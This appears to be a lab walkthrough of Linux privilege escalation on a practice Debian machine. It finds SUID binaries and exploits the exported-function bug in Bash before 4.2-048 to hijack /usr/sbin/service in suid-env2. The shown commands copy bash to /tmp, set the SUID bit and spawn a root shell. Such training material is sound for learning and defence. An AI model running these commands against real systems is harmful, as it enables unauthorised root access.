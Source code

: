 ```
TCM@debian:/$ `find / -type f -perm -04000 -ls 2>/dev/null`
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
```
lets check `/usr/local/bin/suid-env2` executable
```
TCM@debian:~$ `strings /usr/local/bin/suid-env2`
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
lets run it once
```
TCM@debian:~$ `/usr/local/bin/suid-env2`
[....] Starting web server: apache2httpd (pid 1788) already running
. ok 
TCM@debian:~$ `file /usr/sbin/service`
/usr/sbin/service: POSIX shell script text executable
```
The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver. Lets verify `Bash version`
```
user@debian:~$ `/bin/bash --version`
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
user@debian:~$ 
```
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path, Lets `Create a Bash function` with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function
```
TCM@debian:~$ `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`

TCM@debian:~$ `export -f /usr/sbin/service`
```
Run the suid-env2 executable to gain a root shell
```
TCM@debian:~$ `/usr/local/bin/suid-env2`
root@debian:~# `id`
```